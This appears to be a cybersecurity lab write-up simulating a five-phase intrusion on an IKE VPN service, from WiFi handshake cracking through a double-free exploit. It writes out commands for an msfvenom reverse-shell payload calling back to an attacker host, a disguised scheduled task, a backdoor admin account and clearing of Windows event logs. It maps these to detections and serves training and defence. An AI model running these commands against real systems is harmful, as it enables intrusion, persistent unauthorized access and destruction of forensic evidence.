# GrayOS – Day 4 Lab PoC
IKE Service Exploitation

**Analyst:** Jnanashree Anchan | **Date:** 14 September 2026

---

This lab walks a full simulated attack chain end to end, from initial wireless access to full system compromise and evidence destruction, built around CVE-2026-33824, a double-free RCE in an IKE VPN service. It captures and cracks a WiFi handshake for network access, recons and finds an SSTI-exposed VPN management interface, triggers the double-free to gain code execution, establishes a reverse shell with scheduled-task and backdoor-account persistence, then clears logs and removes artifacts. Documented from the defender's side so each step maps to the telemetry and detection a SOC would look for.

---

## Key Findings

A simulated five-phase intrusion takes a target from an exposed WiFi network to a persistent admin foothold and a wiped forensic trail, exercising the full kill chain against an IKE VPN service.

- **Initial access:** a WPA handshake captured with Fluxion and cracked with Hashcat recovered the WiFi password (Summer2026!), putting the attacker on the internal network.
- **Attack surface:** a UDP scan found IKE/VPN ports 500 and 4500 open on 10.0.0.1, and the web interface exposed a VPN management page with a Server-Side Template Injection flaw in its login.
- **Exploitation:** a custom Scapy script sent a crafted IKE packet that triggered the CVE-2026-33824 double-free, achieving remote code execution on the VPN service.
- **Persistence:** a reverse shell to 192.168.1.100:4444, a scheduled task disguised as "WindowsUpdate", and a backdoor local-admin account (backdoor) gave durable, redundant access.
- **Anti-forensics:** Cortex was queried for the attacker's own IOCs, all three Windows event logs were cleared, and the payload was deleted from disk to evade detection.

IOCs: attacker host 192.168.1.100, target VPN 10.0.0.1, payload.exe on port 4444, the "WindowsUpdate" scheduled task, and the backdoor admin account.

---

## Key Concepts

| Term / Concept | Description |
|---|---|
| CVE-2026-33824 | IKE service double-free remote code execution vulnerability. |
| Fluxion | WiFi attack tool that captures a WPA handshake via a fake access point. |
| Hashcat | Password cracking tool, used here against the captured handshake. |
| SSTImap | Server-Side Template Injection detection and exploitation tool. |
| Penelope | Reverse shell handler and listener. |
| Cortex | IOC enrichment engine, used to check what the activity logged. |
| Double-Free | Memory corruption vulnerability where a resource is freed twice. |
| Scheduled Task | Windows persistence mechanism that re-runs a payload on a schedule. |

---

# Phase 1 – Network Access (Fluxion)

Mission: gain initial access to the target network by capturing and cracking the WiFi password.

**Command:** `sudo fluxion`



Launches Fluxion, which stands up a fake access point mimicking the target network, captures the WPA handshake, and tricks a user into entering their WiFi password on a fake login page.

**Command:** `hashcat -m 22000 handshake.cap wordlist.txt`



Cracks the WPA handshake in handshake.cap by comparing it against every password in wordlist.txt until it finds a match. A match is found for Summer2026!, giving the attacker the WiFi password and network access.

---

# Phase 2 – IKE Recon & SSTI

Mission: map the attack surface on the network and find an exploitable vulnerability.

**Command:** `nmap -sU -p 500,4500 10.0.0.1`



Runs a UDP scan (-sU) of the router at 10.0.0.1 for the VPN ports 500 and 4500. Both ports are open, indicating an IKE/VPN service is running on the device.

**Command:** `curl -k https://10.0.0.1`



Fetches the web interface of the router. The "VPN Management" page confirms this is a VPN management interface exposed on the network.

**Command:** `sstimap -u "https://10.0.0.1/login?username=test" --os`



Tests the login page for a Server-Side Template Injection vulnerability, confirming the input is exploitable.

---

# Phase 3 – Exploit Double-Free

Mission: trigger the CVE-2026-33824 double-free in the IKE service to gain remote code execution.

**Command:** `nano ike_double_free.py`



Creates ike_double_free.py, the exploit targeting the VPN service at 10.0.0.1.

**Command:** `python3 ike_double_free.py`



Executes the script, which uses Scapy, a Python library for crafting and sending custom network packets, to send a specially crafted IKE packet to the VPN service at 10.0.0.1 that triggers the double-free vulnerability and achieves code execution.

---

# Phase 4 – Reverse Shell & Persistence

Mission: establish a reverse shell and plant persistence to maintain access to the compromised system.

**Command:** `penelope 4444`



Sets up a listener on port 4444 waiting for an incoming reverse shell connection from the target.

**Command:** `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe`



Creates a malicious Windows executable that, when run on the victim machine, calls back to the attacker at 192.168.1.100 on port 4444.

**Command:** `schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\Temp\payload.exe" /sc daily /st 09:00`



Creates a scheduled task disguised as "WindowsUpdate" that runs payload.exe every day at 9am, the persistence mechanism that keeps the foothold alive across reboots.

**Command:**
`net user backdoor P@ssw0rd! /add`
`net localgroup administrators backdoor /add`



Creates a new Windows user "backdoor" with password P@ssw0rd! and adds it to the Administrators group, giving the attacker a permanent admin account as a second, redundant persistence path.

---

# Phase 5 – Enrichment & Cover

Mission: check what the activity logged, then destroy the forensic evidence to evade detection.

**Command:** `cortex -e "192.168.1.100, payload.exe, WindowsUpdate"`



Queries Cortex (XDR/SIEM) for the attacker's own IOCs, the callback IP, the payload name, and the scheduled task, to see what their activity logged and what needs to be cleaned up.

**Command:** `wevtutil cl System` `wevtutil cl Security` `wevtutil cl Application`



Clears all three main Windows event logs: System (service starts and stops), Security (authentication, logons, privilege use), and Application (application errors and events). This destroys the forensic record of the logons, payload execution, account creation, and scheduled-task creation.

**Command:** `del C:\Windows\Temp\payload.exe`



Deletes the malicious executable from the temp folder to remove the on-disk artifact and avoid detection.

---

# Summary

| Phase | Action Taken | Tools | Attacker Goal |
|---|---|---|---|
| 1. Network Access | Captured the WPA handshake and cracked the WiFi password | Fluxion, Hashcat | Gain initial network access |
| 2. IKE Recon & SSTI | UDP scan found the VPN ports, the web interface confirmed a VPN panel, and SSTI was found in the login | nmap, curl, sstimap | Map the attack surface and find an exploitable vulnerability |
| 3. Exploit Double-Free | Crafted and ran a custom IKE exploit against the double-free in the VPN service | Scapy, Python3 | Trigger RCE via memory corruption |
| 4. Reverse Shell & Persistence | Created a reverse shell payload, a scheduled task, and a backdoor admin account | Penelope, msfvenom, schtasks, net user | Maintain persistent access |
| 5. Enrichment & Cover | Queried IOCs, cleared all Windows event logs, deleted the payload from disk | Cortex, wevtutil, del | Destroy forensic evidence and evade detection |

This lab simulates a complete attack chain from initial WiFi access to full system compromise and evidence destruction. Seen from the defender's side, each phase leaves a trace worth detecting: rogue AP and deauth activity in Phase 1, UDP scans and SSTI probes against the VPN in Phase 2, anomalous IKE traffic and a crashing service in Phase 3, a new scheduled task (4698), a new admin account (4720, 4732) and an outbound 4444 connection in Phase 4, and the loudest tell of all in Phase 5, cleared event logs (1102), which is itself a high-fidelity indicator that an intrusion is being covered up.
